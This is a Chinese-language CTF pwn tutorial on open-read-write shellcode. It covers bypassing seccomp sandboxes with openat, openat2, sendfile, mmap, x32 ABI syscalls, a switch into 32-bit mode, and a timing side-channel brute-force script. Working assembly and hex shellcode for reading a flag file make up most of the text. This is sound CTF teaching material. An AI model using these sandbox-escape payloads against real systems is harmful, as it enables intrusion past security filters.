## 最简单没限制的ORW

64位

```
push 0x67616c66
mov rdi,rsp
xor esi,esi
push 2
pop rax
syscall
mov rdi,rax
mov rsi,rsp
mov edx,0x100
xor eax,eax
syscall
mov edi,1
mov rsi,rsp
push 1
pop rax
syscall
```

32位

```
push 0
push 0x67616c66
push esp  
pop ebx
xor ecx,ecx
push 5
pop eax
int 0x80

push rax   open后rax为3
pop ebx
push esp
pop ecx
push len
pop edx
push 3
pop eax
int 0x80

push 1
pop ebx
push esp
pop ecx
push 0x50
pop edx
push 4
pop eax
int 0x80
```

## ORW缺O的情况

### 1.只ban了 open函数

攻击方式 利用openat 函数

1.系统调用号是257

2.int openat(int dirfd, const char *pathname, int flags);只需要构造openat(0, '/flag\x00') 剩下流程一样

```
push 0x67616c66
    mov rsi,rsp
    xor rdx,rdx
    mov rdi,0xffffff9c
    push 257
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
```

openat的参数得是这样



这个位置rdi要设置为0xfffff9c

### 2.ban 了 open和openat函数

攻击方式利用 x32-abi或者转化64位模式位为32位模式 进行32位的shellcode orw 利用
x32-abi和转化为32位的具体解析 放在后面了

### 3.ban了 x32-abi 64位模式转换 和open openat 函数

`openat2` 系统调用在 Linux 内核版本 5.6 中引入 所以linux内核版本 不能太低 不然赛题中可能用不上

使用openat2函数 感觉出题者没注意的话 用这种可以通杀

用shellcraft就是 shellcode=asm(shellcraft.openat2(-100,flag_addr,flag_addr+0x20,0x18))

```
push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    push 0
    push 0
    push 0
    mov rdx, rsp
    mov r10, 0x18
    push 437
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
```

参数情况如下图



以上基本是出现在return kill的情况

### return trace的打法

而如果是 以上全都被ban了，然后是return trace的话 又是另一种打法 整体可能会比较复杂 具体原理放到另一篇文章讲

## ORW缺R的情况

1.用sendfile函数 来代替R和W

```
mov rax,0x67616c662f
    push rax
    push 257
    pop rax
    mov rsi, rsp
    xor rdi, rdi
    xor rdx,rdx
    xor r10,r10
    syscall
    /* call sendfile(1, 'rax', 0, 0x100) /
    mov r10d, 0x100
    mov rsi, rax
    push 40 / sendfile的系统调用号0x28 */
    pop rax
    push 1
    pop rdi
    xor rsi,rsi
    mov rsi,3
    xor rdx,rdx
    syscall
```

2.pread64、readv、preadv、preadv2系统调用

3.mmap函数：将文件映射到内存中

```
shellcode=asm(shellcraft.open('flag'))
shellcode+=asm(shellcraft.mmap(0x10000,0x100,1,1,'eax',0))
shellcode+=asm(shellcraft.write(1,0x10000,0x100))
mov rax,0x67616c662f2e
mov rsi,0
mov rdx,0
push rax
mov rax,2
push rsp
pop rdi
syscall

mov rdi,0
mov rsi,0x100
mov rdx,7
mov rcx,2
mov r10,2
mov r8,rax
mov r9,0
mov rax,9
syscall

push rax
pop rsi
mov rax,1
mov rdi,1
mov rdx,0x40
syscall
```



## ORW缺W的情况

爆破类型:测信道爆破

不爆破类型:替换函数**pwrite64、writev**

替换这种的话 关键还是看汇编和对函数的了解能力

这里重点讲一下测信道爆破的打法：

这里的原理是 通过 把flag读到地址上，然后逐字节比较：

这里参考一下这位大佬的爆破脚本：[2024VNCTF--PWN · Feng_ZZ's Studio (feng-zz-pwn.github.io)](https://feng-zz-pwn.github.io/2024/02/26/2024VNCTF-PWN/)

```
def pwn():
    global s
    flag = ''
    count = 1
    for i in range(len(flag), 0x50):
        left = 32
        right = 127
        while left < right:
            s = process('./ezshell')
            # s = remote('node2.hackingfor.fun', 38235)
            getshellcode()
            mid = (left + right) >> 1
            orw_shellcode = f'''
                mov rdi, 0x67616c662f2e
                push rdi
                mov rdi, rsp
                mov rsi, 0
                mov rdx, 0
                mov rax, 2
                syscall
                mov rdi, 3
                mov rsi, rsp
                mov rdx, 0x100
                mov rax, 0
                syscall
                mov dl, byte ptr [rsp+{i}]
                mov cl, {mid}
                cmp dl, cl
                ja loop
                ret
                loop:
                jmp loop
            '''
            s.sendline(asm(orw_shellcode))
            start_time = time.time()
            try:
                s.recv(timeout=0.2)
                if(time.time() - start_time > 0.1):
                    left = mid + 1
            except:
                right = mid
            s.close()
            log.info('time-->' + str(count))
            log.info(flag)
            count += 1
        flag += chr(left)
        log.info(flag)
        if(flag[-1] == '}'):
            break
```

## 调用x32 ABI

 x32 ABI是ABI (Application Binary Interface)，同样也是linux系统内核接口之一。x32 ABI允许在64位架构下（包括指令集、寄存器等）使用32位指针，从而避免64位指针造成的额外开销，提升程序性能。然而，除跑分、嵌入式场景外，x32 ABI的使用寥寥无几。前几年曾有过弃用x32 ABI的讨论，但其被最终决定保留，并在linux kernel中保留至今。

### 利用方式

x32 ABI与64位下的系统调用方法几乎无异，只不过系统调用号都是不小于0x40000000，并且要求使用32位指针。

具体的调用表可以查看系统头文件中的`/usr/src/linux-headers-$version-generic/arch/x86/include/generated/uapi/asm/unistd_x32.h`

```
#ifndef _UAPI_ASM_UNISTD_X32_H
#define _UAPI_ASM_UNISTD_X32_H

#define __NR_read (__X32_SYSCALL_BIT + 0)
#define __NR_write (__X32_SYSCALL_BIT + 1)
#define __NR_open (__X32_SYSCALL_BIT + 2)
#define __NR_close (__X32_SYSCALL_BIT + 3)

.........

#endif /* _UAPI_ASM_UNISTD_X32_H */
```

其中，`__x32_SYSCALL_BIT`为0x40000000，由头文件`/usr/src/linux-headers-$version-generic/arch/x86/include/uapi/asm/unistd.h`定义：

```
#ifndef _UAPI_ASM_X86_UNISTD_H
#define _UAPI_ASM_X86_UNISTD_H

/*
 * x32 syscall flag bit.  Some user programs expect syscall NR macros
 * and __X32_SYSCALL_BIT to have type int, even though syscall numbers
 * are, for practical purposes, unsigned long.
 *
 * Fortunately, expressions like (nr & ~__X32_SYSCALL_BIT) do the right
 * thing regardless.
 */
#define __X32_SYSCALL_BIT   0x40000000

#ifndef __KERNEL__
# ifdef __i386__
#  include <asm/unistd_32.h>
# elif defined(__ILP32__)
#  include <asm/unistd_x32.h>
# else
#  include <asm/unistd_64.h>
# endif
#endif

#endif /* _UAPI_ASM_X86_UNISTD_H */
```

### 利用条件：

没限制系统号<0x4000000000

### [TSCTF-J 2022] Easy Shellcode



其实也就是把系统调用号调为了 0x40000000之后 为x32-abi，其实就是在原来的系统调用基础上加上一个值

```
lea rax,[rip]
add rax,0x200
mov rsp,rax ;  因为rsp被清空，先将栈迁移至可读写位置

mov eax,0x67616c66 ;  'flag'
push rax
mov rdi,rsp
xor rsi,rsi
mov rax,0x40000002 ;  open
syscall

mov rdi,rax
mov rax,rsp
add rax,0x100
mov rsi,rax
mov rdx,0x40
mov rax,0x40000000 ;  read
syscall

mov edi,2
mov rax,0x40000001 ;  write
syscall
```

## 使用32位模式

### 32位模式

32位模式即64位系统下运行32位程序的模式，此时CS寄存器的值为**0x23**。在该模式下，程序与在32位系统中运行几乎无异，即只能使用32位寄存器，所有指针必须为32位，指令集为32位指令集等。与之相对地，64位模式对应的CS寄存器的值为**0x33**。

### 进入32位模式

进入32位模式需要更改CS寄存器为0x23。retf (far return) 指令可以帮助我们做到这一点。retf指令相当于：

```
pop ip
pop cs
```

需要注意的是，在使用pwntools构造shellcode时，需要指定retf的地址长度，即可以使用retfd和retfq。

### 利用方式

因为进入32位模式后，sp, ip寄存器也会变成32位，所以需要将栈迁移至32位地址上；利用或构造32位地址的RWX内存段，写入32位shellcode；最后在栈上构造fake ip, cs，执行retf指令。

### 利用条件

- 沙箱中不包含对arch==ARCH_x86_64的检测
- 存在或可构造32位地址的RWX内存段

其中，构造RWX内存段可使用mmap申请新的内存，或使用mprotect使已有的段变为RWX权限

### [CrossCTF Quals 2018] Impossible Shellcoding



创建一个mmap位置，然后读入32位的shellcode 然后64位转化为32位

这里补充一下mmap的利用说明

mmap将一个文档或者其它对象映射进内存。文档被映射到多个页上，如果文档的大小不是所有页的大小之和，最后一个页不被使用的空间将会清零。mmap在用户空间映射调用系统中作用很大。
头文档 <sys/mman.h>

void *mmap(void* start,size_t length,int prot,int flags,int fd,off_t offset);
第一个参数：分配新内存的地址
第二个参数：新内存的长度（0x1000的倍数），长度单位是字节，不足一内存页按一内存页处理
第三个参数：期望的内存保护标志，不能与文档的打开模式冲突。
PROT_EXEC（可执行）在内存中用4来表示
PROT_READ（可读）在内存中用1来表示
PROT_WRITE（可写）在内存中用2来表示
PROT_NONE（不可访问）在内存中用0来表示
第四个参数：映射的类型
MAP_FIXED（）在内存中用10来表示
MAP_SHARED（）在内存中用1来表示
MAP_PRIVATE（）在内存中用2来表示
MAP_NORESERVE（）在内存中用4000来表示
MAP_LOCKED（）在内存中用2000来表示
第五个参数：文档描述符，可设为0
第六个参数：如果为文档映射，则此处代表定位到文档的那个位置，然后开始向后映射。

函数返回值：
若该函数执行成功，mmap()返回被映射区的指针，失败时返回MAP_FAILED（-1）

可以通过mmap来申请出一段有读写执行权限的[内存](https://so.csdn.net/so/search?q=内存&spm=1001.2101.3001.7020)，通常**mmap(target_addr,0x1000,7,34,0,0)**，这里target_addr需要页对齐也就是0x1000的整数倍，若不对齐，申请到的起始地址将不是target_addr。

```
xor rax, rax         ; 将 rax 寄存器清零，等价于 rax = 0
mov al, 9            ; 将 rax 的低 8 位设置为 9（系统调用号 9 对应 mmap）
mov rdi, 0x602000    ; 将 mmap 的第一个参数（地址）设置为 0x602000
mov rsi, 0x1000      ; 将 mmap 的第二个参数（长度）设置为 0x1000（4096 字节）
mov rdx, 7           ; 将 mmap 的第三个参数（保护标志）设置为 7（读/写/执行）
mov r10, 0x32        ; 将 mmap 的第四个参数（映射类型）设置为 0x32（MAP_PRIVATE | MAP_ANONYMOUS）
mov r8, 0xffffffff    ; 将 mmap 的第五个参数（文件描述符）设置为 -1
mov r9, 0            ; 将 mmap 的第六个参数（偏移量）设置为 0
syscall              ; 执行系统调用

mov rax, 0
xor rdi, rdi
mov rsi, 0x602590
mov rdx, 100
syscall ; read x86 shellcode

xor rsp, rsp
mov esp, 0x602160
mov DWORD PTR [esp+4], 0x23 ; set CS register
mov DWORD PTR [esp], 0x602590 ; set new eip
retfd
```

32位的shellcode(orw)

```
push 0
push 0x67616c66
push esp
pop ebx
xor ecx,ecx
push 5
pop eax
int 0x80

push eax
pop ebx
push esp 
pop ecx                                          
push 0x50
pop edx
push 3
pop eax
int 0x80

push 1
pop ebx
push esp
pop ecx
push 0x50
pop edx
push 4
pop eax
int 0x80
```

汇编转化为字节码的 因为不是64位的架构不同 不能用asm(shellcode)这种直接进行转化


网站：[Online x86 and x64 Intel Instruction Assembler (defuse.ca)](https://defuse.ca/online-x86-assembler.htm#disassembly)

转化后为\x6A\x00\x68\x66\x6C\x61\x67\x54\x5B\x31\xC9\x6A\x05\x58\xCD\x80\x50\x5B\x54\x59\x6A\x50\x5A\x6A\x03\x58\xCD\x80\x6A\x01\x5B\x54\x59\x6A\x50\x5A\x6A\x04\x58\xCD\x80

### 动态调试部分如下：

mmap一块新地址 来存放32位shellcode



读入32位shellcode



转为32位模式 返回 shellcode存入的位置



open



read



write



成功获得flag：



参考文献:
https://feng-zz-pwn.github.io/2024/02/26/2024VNCTF-PWN/
https://www.cnblogs.com/pwnfeifei/p/15746588.html
https://blog.csdn.net/2301_79326813/article/details/140902801
https://www.man7.org/linux/man-pages/man2/openat2.2.html